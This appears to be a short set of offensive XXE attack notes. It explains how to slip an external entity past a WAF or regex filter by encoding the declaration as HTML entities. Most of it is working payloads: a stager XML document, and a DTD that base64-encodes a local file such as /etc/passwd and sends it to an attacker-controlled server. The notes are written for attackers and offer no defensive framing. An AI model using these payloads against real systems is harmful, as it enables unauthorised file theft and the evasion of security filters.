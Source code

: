 # XXE-Notes

### WAF bypass

A usefull technique to bypass WAF forbiden words like SYSTEM is using html entities, the technique here can be used to avoid using blacklisted words.

This is also valid for a regex in this case we will bypass the following regex `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im`

This regex is stoping us to create a external entity with the following structure: 

`<!ENTITY file SYSTEM "file:///path/to/file">` 
To avoid this we are going to use html entities to encode `<!ENTITY % dtd SYSTEM "http://ourserver.com/bypass.dtd" >` so we can call our dtd in a server we control.

The html entity equivalent is `&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;`

The idea here is to use this entity to bypass the SYSTEM word to call our controlled dtd. This way we only have to bypass the WAF/REGEX one time and we can craft any entity we need on our dtd.

#### Server payload

We have to serve our dtd like the following:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://ourserver.com/bypass.xml?%data;'>">
%abt;
```
We can modify this payload as we need as this will not be blocked by the WAF or regex on the victim.

#### Stager payload
The following payload will call our external dtd bypassing the SYSTEM blacklisted word:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x64;&#x74;&#x64;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x20;&#x3E;" >%a;%dtd;]><data><env>&exfil;</env></data>
```

And all we need to do is sending the payload and wait for the exfil in our server
![Bypass ](img/exfil.png)
And we can see is the base64 of the /etc/passed